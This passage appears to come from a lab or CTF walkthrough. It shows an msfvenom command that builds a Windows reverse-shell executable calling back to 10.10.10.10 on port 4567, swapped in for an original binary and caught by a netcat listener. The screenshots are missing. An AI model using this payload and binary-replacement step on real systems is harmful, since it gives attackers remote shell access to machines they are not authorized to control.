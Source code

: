 `msfvenom -p windows/x64/shell_reverse_tcp -f exe -o rootshell.exe LHOST=10.10.10.10 LPORT=4567` 

![Untitled](images/Untitled%2037.png)

Let’s rename the original binary and download the one we created:

![Untitled](images/Untitled%2038.png)

Let’s open a netcat listener on the same port we used to configure the payload:

![Untitled](images/Untitled%2039.png)

And wait for a connection...

![Untitled](images/Untitled%2040.png)
